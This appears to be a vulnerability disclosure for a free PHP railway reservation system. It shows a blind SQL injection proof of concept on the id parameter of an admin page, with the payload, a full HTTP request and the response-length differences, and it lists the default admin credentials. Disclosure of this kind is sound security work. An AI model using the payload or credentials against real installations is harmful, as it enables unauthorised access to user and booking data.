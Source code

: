 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/admin/reservations/view_details.php?id=

Vulnerability location: /orrs/admin/reservations/view_details.php?id=, id

Current database name: orrs_db,length is 7

[+] Payload: /orrs/admin/reservations/view_details.php?id=8%20and%20length(database())=7 // Leak place ---> id

```sql
GET /orrs/admin/reservations/view_details.php?id=8%20and%20length(database())=7 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close
```

When length (database ()) = 6, Content-Length: 1943
![image](https://user-images.githubusercontent.com/54017627/172331373-da327434-cd5e-4896-8c9d-a11f8cf7c18d.png)

![image](https://user-images.githubusercontent.com/54017627/172331945-cf2967aa-d15a-445c-8c4a-4330fb13e1ed.png)

When length (database ()) = 7, Content-Length: 4116
![image](https://user-images.githubusercontent.com/54017627/172331320-6f27b419-a1b5-4d9f-b8b5-463be4103ead.png)

![image](https://user-images.githubusercontent.com/54017627/172331871-f98a1ea0-a013-41fd-88a6-1cad786451a1.png)
